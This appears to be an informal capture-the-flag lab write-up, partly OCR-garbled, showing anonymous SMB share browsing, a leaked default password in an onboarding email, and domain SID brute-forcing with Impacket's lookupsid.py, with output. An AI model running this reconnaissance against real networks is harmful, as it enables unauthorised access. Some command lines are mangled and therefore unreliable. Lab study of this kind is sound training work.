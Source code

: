 -------------------------------------------------------------------------------------------------------------

says data share can be read "Listing: OK"

root@ip-10-201-62-243:~# cat dnv0br3b.qsmbclient //HAYSTACK/Data
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> cd onboarding
smb: \onboarding\> ls
  .                                   D        0  Thu Oct  9 20:49:03 2025
  ..                                  D        0  Thu Oct  9 20:49:03 2025
  c44k2ocg.z3q.txt                    A      521  Mon Aug 21 19:21:59 2023
  su2ryj5w.5cb.pdf                    A  4700896  Mon Jul 17 09:11:53 2023
  wxbv04v3.fyf.pdf                    A  3032659  Mon Jul 17 09:12:09 2023

		7863807 blocks of size 4096. 3024313 blocks available
smb: \onboarding\> 

root@ip-10-201-62-243:~# cat dnv0br3b.qjr.txt 
Subject: Welcome to Reset -\ufffdDear <USER>,Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. Please keep this information confidential and do not share it with anyone.The initial passowrd is: ResetMe123!We are confident that you will contribute significantly to our continued success. We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Teamroot@ip-10-201-62-243:~# 

ResetMe123!

-------------------------------------------------------------------------------------------------------------

from there we find a share that gives us initial creds to try on some user accounts im going to work on the 2 PDFs before moving further I notice 88 was open for kerberos so it is probably worth testing other domain auth features.

the PDFs were boring HR slideshows and they coulda put the secrets of the universe in there im not reading it

Tried a couple ways I know to enu usernames but got stuck and had to find this tool

https://github.com/saisathvik1/OSCP-Cheatsheet



root@ip-10-201-62-243:/opt/impacket/examples# lookupsid.py thm.corp/guest@HAYSTACK
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Password:
[*] Brute forcing SIDs at HAYSTACK
[*] StringBinding ncacn_np:HAYSTACK[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1966530601-3185510712-10604624
498: THM\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: THM\Administrator (SidTypeUser)
501: THM\Guest (SidTypeUser)
502: THM\krbtgt (SidTypeUser)
512: THM\Domain Admins (SidTypeGroup)
513: THM\Domain Users (SidTypeGroup)
514: THM\Domain Guests (SidTypeGroup)
515: THM\Domain Computers (SidTypeGroup)
516: THM\Domain Controllers (SidTypeGroup)
517: THM\Cert Publishers (SidTypeAlias)
518: THM\Schema Admins (SidTypeGroup)
519: THM\Enterprise Admins (SidTypeGroup)
520: THM\Group Policy Creator Owners (SidTypeGroup)
521: THM\Read-only Domain Controllers (SidTypeGroup)
522: THM\Cloneable Domain Controllers (SidTypeGroup)
525: THM\Protected Users (SidTypeGroup)
526: THM\Key Admins (SidTypeGroup)
527: THM\Enterprise Key Admins (SidTypeGroup)
553: THM\RAS and IAS Servers (SidTypeAlias)